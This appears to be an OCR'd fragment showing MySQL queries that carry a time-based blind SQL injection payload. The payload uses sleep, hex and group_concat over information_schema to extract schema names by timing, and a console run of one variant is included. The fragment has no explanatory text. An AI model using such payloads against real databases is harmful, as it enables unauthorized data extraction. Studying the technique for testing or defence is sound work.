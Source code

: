`select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'696E666F'and'696E666G'))#'`

`select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'696E666G'and'696E666G'))#'`

```
mysql root@localhost:(none)> select user,host,file_priv from mysql.user where user='root'&&(sleep((select(hex(group_concat(schema_name)))from(information_schema.schemata))between'696E666E'and'696E666G'))#'
+------+------+-----------+
| user | host | file_priv |
+------+------+-----------+
0 rows in set
